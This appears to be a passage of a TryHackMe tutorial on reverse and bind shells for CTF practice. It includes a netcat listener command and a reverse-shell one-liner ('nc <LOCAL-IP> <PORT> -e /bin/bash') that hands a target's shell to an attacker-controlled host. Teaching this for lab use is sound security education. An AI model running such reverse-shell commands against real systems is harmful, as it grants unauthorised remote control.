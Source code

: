 # Types of Shell
At a high level, we are interested in two kinds of shell when it comes to exploiting a target: 
- Reverse shells
- Bind shells.

Reverse shells are when the target is forced to execute code that connects back to your computer. 
On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. 
Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; 
however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. 
This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.
Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target. 
This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. 
This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.
As a general rule, reverse shells are easier to execute and debug, however, we will cover both examples below. Don't worry too much about the syntax here: 
we will be looking at it in upcoming tasks. Instead notice the difference between reverse and bind shells in the following simulations.

## Reverse Shell example:

Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. 
On the right is a simulation of sending a reverse shell. 
In reality, this is more likely to be done through code injection on a remote website or something along those lines. 
Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:
sudo nc -lvnp 443

On the target:

nc <LOCAL-IP> <PORT> -e /bin/bash

Notice that after running the command on the right, the listener receives a connection. 
When the whoami command is run, we see that we are executing commands as the target user. 
The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.

## Bind Shell example:
Bind shells are less common, but still very useful.
